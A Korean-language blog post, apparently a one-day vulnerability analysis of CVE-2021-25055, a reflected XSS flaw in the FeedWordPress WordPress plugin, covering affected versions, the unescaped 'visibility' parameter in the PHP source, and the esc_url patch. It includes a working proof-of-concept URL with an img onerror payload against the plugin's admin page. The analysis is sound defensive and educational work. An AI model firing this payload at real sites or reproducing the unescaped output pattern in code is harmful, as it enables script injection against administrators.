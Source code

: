 ```yaml
---
title: "[CVE-2021-25055] 취약점 분석 보고서"
description: "FeedWordPress에서 발생하는 Reflected XSS 취약점"
author: bde574786
date: 2024-12-31 18:00:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, XSS]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. 취약점 개요**

FeedWordPress는 WordPress 블로그에 외부 사이트의 글을 자동으로 가져와 게시물로 저장해주는 플러그인이다. 예를 들어, 뉴스 사이트나 블로그에서 글을 가져와 내 블로그에 자동으로 추가할 수 있다. 여러 사이트에서 글을 가져올 수도 있고, 가져온 글을 내 블로그 스타일에 맞게 꾸밀 수도 있다. 

CVE-2021-25055 취약점은 서버가 `visibility` 매개변수를 적절히 검증하지 않기 때문에  **Reflected XSS** 공격에 취약하다.

## **2. 영향을 받는 버전**

- FeedWordPress ≤ 2022.0123

## **3. 취약점 테스트**

**Step 1. PoC**

```
https://example.com/wp-admin/admin.php?page=feedwordpress%2Fsyndication.php&visibility=%22%3E%3Cimg+src%3D2+onerror%3Dalert%28origin%29%3E
```

**Step 2. PoC 실행**

![image.png](assets/posts/one-day/2024-12-31/image-009.png)

## **4. 취약점 상세 분석**

사용자로부터 입력받은 값인 `visibility`을 확인하고 사용자가 값을 제공했다면 그 값을 반환하고 그렇지 않으면 내부 로직에 따라 기본값인 `defaultVisibility`가 반환된다. 

```php
// feedwordpress/feedwordpresssyndicationpage.class.php

function visibility_toggle () {
	$sources = $this->sources('*');

	$defaultVisibility = 'Y';
	if ((count($this->sources('N')) > 0)
	and (count($this->sources('Y'))==0)) :
		$defaultVisibility = 'N';
	endif;
	
	$visibility = (
		isset($_REQUEST['visibility'])
		? $_REQUEST['visibility']
		: $defaultVisibility
	);
	
	return $visibility;
} /* FeedWordPressSyndicationPage::visibility_toggle() */
```

사용자한테 받은 값은 클래스 내부 메서드에서 다시 `visibility` 변수에 담겨 그대로 출력된다.

```php
// feedwordpress/feedwordpresssyndicationpage.class.php

function syndicated_sources_box ($page, $box = NULL) {
	$visibility = $this->visibility_toggle();
}
```

```php
<form enctype="multipart/form-data" action="<?php print $hrefPrefix; ?>&amp;visibility=<?php print $visibility; ?>" method="post">
```

아래와 같이 HTML 구조가 깨져버리지만 img 태그가 삽입되어 XSS가 발생하게 된다.

```php
<form enctype="multipart/form-data" action="http://example.com/form&amp;visibility="><img src=2 onerror=alert(origin)>" method="post">
```

## **5. 패치**

[https://plugins.trac.wordpress.org/changeset/2662665](https://plugins.trac.wordpress.org/changeset/2662665)

`visibility` 의 값이 `urlencode`를 통해 URL 인코딩되었으며 최종적으로 `esc_url` 함수가 사용되어 안전한 URL 형식으로 변환되었다.  

![image.png](assets/posts/one-day/2024-12-31/image-010.png)